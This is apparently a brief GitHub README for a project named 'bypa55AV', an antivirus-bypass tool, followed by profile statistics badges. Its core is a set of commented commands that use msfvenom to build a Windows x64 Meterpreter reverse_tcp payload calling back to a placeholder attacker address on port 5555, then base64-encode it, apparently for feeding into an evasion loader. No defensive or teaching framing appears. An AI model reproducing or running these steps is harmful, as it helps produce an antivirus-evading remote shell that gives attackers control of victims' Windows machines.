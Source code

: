 # bypa55AV
// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=5555 -f raw > rev.raw
// base64 -w 0 -i rev.raw > rev.bs64
// cat rev.bs64
 
<center>![Xiao tsai's GitHub stats](https://github-readme-stats.vercel.app/api?username=xiaotsai&show_icons=true)</center>


<div align="center">  
  <img  src="https://github-readme-streak-stats.herokuapp.com?user=xiaotsai&theme=onedark&date_format=M%20j%5B%2C%20Y%5D" />
</div>

